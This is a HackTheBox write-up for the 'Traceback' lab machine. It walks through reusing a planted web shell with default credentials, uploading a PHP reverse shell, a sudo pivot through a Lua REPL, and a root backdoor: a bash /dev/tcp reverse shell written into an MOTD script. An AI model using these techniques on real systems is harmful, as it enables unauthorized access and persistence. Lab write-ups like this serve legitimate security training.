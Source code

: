 ```yaml
---
title: HackTheBox - Traceback
layout: post
date: 2020-08-15 23:00:00 +0800
---
```


![5eb1e9495a12b0323d8a529ea3e5af4b.png](/images/htb-traceback/44878c98a9b1419fab90d0c2b33efb0a.png)

### 0. Preface

A relatively easy box. Some lateral thinking and OSINT is required for the first section to get to user, but the rest of the box is pretty straightforward. 

In this box, we will be tackling: 

1. Further pwning a pwned website
2. Using a LUA REPL compiler to pivot to another user
3. Using MOTDs to get a root shell

<!--excerpt-->

---

### 1. Preliminary NMAP Scanx
```bash
sudo nmap -sC -sV -oN nmap.txt 10.10.10.181 -v
```
![4204251156cbf7305e30694634008f3a.png](/images/htb-traceback/2a8ec04482254b1ab6c75d5df9bdedc4.png)

This machine is running Ubuntu Linux. 

There are only two ports of interest on this machine - port 80 and 22. 

### 2. Web Server Enumeration

Accessing `http://10.10.10.181` leads us to a web server that seems to have been hacked prior: 

![e43e6bb04126f5bf4b01cdb73c098a9a.png](/images/htb-traceback/af3343165274495ca8aaeeb9d9949c0b.png)

Looking at the source of the website, we see that a comment has been added: 

![eacf96e44e51e251c522ea6792777581.png](/images/htb-traceback/4604820701d5419e89775bbc1c047402.png)

Googling the string *"best web shells you might need"* turns up this [Github Repository](https://github.com/TheBinitGhimire/Web-Shells) of web shells.

We will do a `git clone` of this repository first. Then using the list of .php files, run `gobuster` to find out if there are any web shells from the repository running on this web server. 

![010a44cebca3a53cc73c49471cba1c21.png](/images/htb-traceback/4f46843fa78640d6a53bcb8455e1f5e1.png)

![deb02ecaea62beed584055a6cc2ea31a.png](/images/htb-traceback/07c4b55d40e54fb381d77cd34323118a.png)

```bash
gobuster dir -u http://10.10.10.181 -w ./shells.txt
```

![4e02f1982bf15ee214c396d12d9b71a9.png](/images/htb-traceback/0126315cb82a4cb696c38f49cc4e5892.png)

From the `gobuster` results, `smevk.php` has been uploaded to the web server. Accessing `smevk.php` presents us with a login page. 

![fd9ebcfbcba57fd91c197d1280eea5b9.png](/images/htb-traceback/62e390cc8c2443018e07530b794cf492.png)

Looking at the source code for `smevk.php`, we can see that the default username and password to this webshell is `admin:admin`. We are able to successfully login with the default credentials. 

![4db134eabb2dd8bbd3beb78a0ebcf788.png](/images/htb-traceback/95d038f132b44fbc8d025f6ee30568b4.png)

![52414dbfad3f8f8de9dbd1ae53f471f3.png](/images/htb-traceback/b07a70854a5c4a1c894ac79da02dad75.png)

### 3. PHP Reverse Shell

Using this web shell, will upload our own reverse shell to the `/var/www/html` directory, which is the root directory of the web server.

We will be using the Console tab to do so. 

![a012cef6e15d330d355c670e326fd259.png](/images/htb-traceback/23c6989b316f4469bf2db6f599c36d4c.png)

Start a python3 http server on our local machine, then use `wget` on the remote machine to download the file. 

*(Local Machine)*
```bash
python3 -m http.server 8888
```
*(Remote Machine)*
```bash
wget http://10.10.14.43:8888/php-reverse-shell.php
mv php-reverse-shell.php main.php
```

![ec7a435997b8fe409970ffd5b272d70b.png](/images/htb-traceback/b0e1e7b4cd564d878298c03ef53a637c.png)

We will start a netcat listener on our machine, then trigger the shell by navigating to `http://10.10.10.181/main.php`. 

```bash
nc -lvnp 8000
```

![847f9d9c8378639dfdc0ee25e2695933.png](/images/htb-traceback/3509c524bea4455e9741a2bc6383f78b.png)

![d564a291918fbba3faf282b7bb1a1b58.png](/images/htb-traceback/4c15845a7dbc41f2860aafbb8e9169d6.png)

We can see that we are logged in as `webadmin`. Before proceeding, we will upgrade our shell to an interactive shell [using python3](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic). 

### 4. Pivoting

Enumerating the machine manually, we can see that there's a note in the home directory of `webadmin`, which points to a tool to practice Lua with. 

![81b78ce7a957d56af4315ff64d7f9e8b.png](/images/htb-traceback/d34dbec3b95b4f80ba02b8895daac19e.png)

Running `sudo -l` tells us that `webadmin` can run `/home/sysadmin/luvit` as the user `sysadmin` without needing a password. A Google search for Luvit turns up a REPL (Read-Eval-Print-Loop) Lua compiler. 

Lua has a function to run OS commands using `os.execute('cmd')`, so we can make use of that to pivot us to `sysadmin`. 

```bash
sudo -u sysadmin /home/sysadmin/luvit
```

![f0226abfbaec72eba9c15d2d5e38b96a.png](/images/htb-traceback/35327b7f115b443aa975b9740939f515.png)

```lua
os.execute('whoami')
os.execute('/bin/bash')
```

![a2f14e68d2bc89ccfa3ce80328662d65.png](/images/htb-traceback/6ec1cc0b07af46c2ba3803ead24c1756.png)

### 5. Privilege Escalation 

Next, we will upload and run `linpeas.sh` on the machine for further enumeration. 

*(Local Machine)*
```bash
python3 -m http.server 8888
```
*(Remote Machine)*
```bash
wget http://10.10.10.181:8888/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![06d6f090fdf0902bf7e26fae3ec18571.png](/images/htb-traceback/7f0ff79f28a841c793a2b1638bf0a424.png)

From the output, we can see that `sysadmin` is able to edit the files in `update-motd`. These files are run as root when a new SSH session starts, displaying the motd. 

![37237d568e8d365167d520e0ee56e989.png](/images/htb-traceback/0b499953ea0b4754a36f2b0a11161185.png)

![5ec82e33c7884d65664373920b9be32f.png](/images/htb-traceback/92ccd1ba568b4d079fc0728a460a640f.png)

In order to exploit this, we will first generate an SSH key with ssh-keygen. 

![8545d6d5f930a013af92d79123491212.png](/images/htb-traceback/13cfcf50f18f4b41afe4f7d6bb751eea.png)

Next, copy the contents of `id_rsa.pub` to `/home/sysadmin/.ssh/authorized_keys`. This will allow us to use the generated private key to SSH into the machine. 

![4d9e0874cff944f09caffb95b277dcfe.png](/images/htb-traceback/eda40b582622493aa1fc86bec82b1093.png)

Next, we will append a script to trigger a bash reverse shell when the motd is run, using the file `/etc/update-motd.d/00-header`. 

*(Bash Reverse Shell Script)*
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.43/8000 0>&1'
```

![b407dc05875c44592a1c78955287e5ee.png](/images/htb-traceback/207a5288a4184c52840b569c657a5a14.png)

Next, we will start a netcat listener on our local machine, then SSH to the machine with `sysadmin` in order to trigger the reverse shell. 

```bash
nc -lvnp 8000
```
```bash
ssh sysadmin@10.10.10.181 -i id_rsa
```

![251715102e7a265be12a85eb1d0c6c7b.png](/images/htb-traceback/51ef160422904bdda7aaedc82351b00f.png)


